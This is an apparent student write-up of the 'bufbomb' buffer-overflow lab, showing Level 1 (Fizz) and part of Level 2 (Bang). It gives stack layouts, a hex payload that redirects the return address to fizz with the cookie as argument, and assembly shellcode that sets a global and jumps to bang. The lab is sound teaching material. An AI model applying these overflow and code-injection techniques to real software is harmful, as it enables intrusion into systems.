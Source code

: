 # Level 1 : Fizz
Similar to Level 0,  our task is to get `BUFBOMB` to execute the code for `fizz` rather  than returning  to
`test`. In this case, however, we must make it appear to`fizz` as if you have passed your cookie as its
argument.  
Similar to Level 0, we rewrite return address to address of 'fizz', which is 0x8048c42.
But before we put the argument on above retutn address, we have to insert an extra byte (content doesn't matter).  

Address | Content
---     | ---
...     | ...
x + 52  | cookie
x + 48  | whatever
x + 44  | ret address
x + 40  | saved $ebp
...     | ...
x       | start of buff
...     | ...

The reason is that actually we don't call `fizz`, we just make execution jump to fizz and no return address is pushed on stack, 
but `fizz` doesn't know that, it will assume there is a return address and search for arguments above it. So the answer will be:  
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 89 5d fa 44
```

# Level 2 : Bang
Within the file `bufbomb` there is a function `bang` having the following C code:  
```c
int global_value = 0;

void bang(int val)
{
  if (global_value == cookie) {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  } else
    printf("Misfire: global_value = 0x%x\n", global_value);
  exit(0);
}
```
Similar to Levels 0 and 1, our task is to get `BUFBOMB` to execute the code for `bang` rather than returning
to test. Before this, however, we must set global variable`global_value` to userid’s cookie.
So our exploit code should set `global_value`, push the address of `bang` on the stack, and then execute a `ret`
instruction to cause a jump to the code for `bang`, it looks like:
```asm
# global_value locates at 0x804d100
movl $0x44fa5d89, 0x804d100
push $0x8048c9d
ret
```